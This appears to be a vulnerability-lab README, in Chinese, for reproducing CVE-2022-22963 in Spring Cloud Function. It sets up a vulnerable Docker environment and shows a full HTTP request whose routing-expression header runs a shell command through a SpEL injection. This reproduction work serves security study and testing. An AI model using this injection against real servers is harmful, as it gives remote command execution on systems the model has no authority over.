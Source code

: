 # Spring Cloud Function SpEL表达式命令注入（CVE-2022-22963）

Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。

参考链接：

- <https://tanzu.vmware.com/security/cve-2022-22963>
- <https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw>
- <https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f>

## 漏洞环境

执行如下命令启动一个使用Spring Cloud Function 3.2.2编写的服务器：

```
docker-compose up -d
```

服务启动后，执行`curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test`即可执行`uppercase`函数，将输入字符串转换成大写。

## 漏洞复现

发送如下数据包，`spring.cloud.function.routing-expression`头中包含的SpEL表达式将会被执行：

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

![](1.png)

可见，`touch /tmp/success`已经成功被执行：

![](2.png)
